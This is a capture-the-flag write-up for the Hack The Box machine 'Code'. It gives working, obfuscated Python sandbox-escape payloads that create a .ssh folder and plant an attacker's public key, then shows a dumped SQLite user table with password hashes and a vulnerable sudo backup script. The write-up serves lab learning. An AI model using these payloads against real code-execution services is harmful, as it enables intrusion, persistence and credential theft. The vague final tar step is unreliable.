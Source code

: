 # CTF Challenge: CODE HTB

## Initial Exploration

We notice that port **5000** is open with the **HTTP** protocol. When accessing it, we discover an online Python compiler. Our first attempt is to list the available classes using the following script:

```python
for i, cls in enumerate(''.__class__.__mro__[1].__subclasses__()):
    print(f"Index {i}: {cls.__name__}")
```

This script works and returns useful results.

---

## Creating an SSH Access

We observe that the user does not have a **.ssh** folder. We will create one to establish an SSH connection later.

### Creating the `.ssh` Folder

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Adding Our Public SSH Key

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accessing the SQLite Database

We find hints in a configuration file indicating the presence of an **SQLite3** database.

### Locating the Database

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploring the Database

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Retrieving Available Tables

```sql
sqlite> .tables
code  user
```

#### Extracting Users and Passwords

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```

Thus, we obtain **Martin's** password.

---

## Privilege Escalation

After logging in as **Martin**, we execute:

```bash
martin@code:~$ sudo -l
```

We discover a script **/usr/bin/backy.sh** that can be executed with sudo.

### Content of `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We exploit a flaw in the script to execute arbitrary commands.

### Exploitation

We can use **tar** to extract sensitive content into `/home/martin/backup/`:

```bash
tar -xvf code
```

This grants us access to the necessary files to gain **root** access.

---

## Retrieving the Root Flag

By exploiting the script's vulnerability, we obtain **root** access, allowing us to read the **/root/root.txt** file.


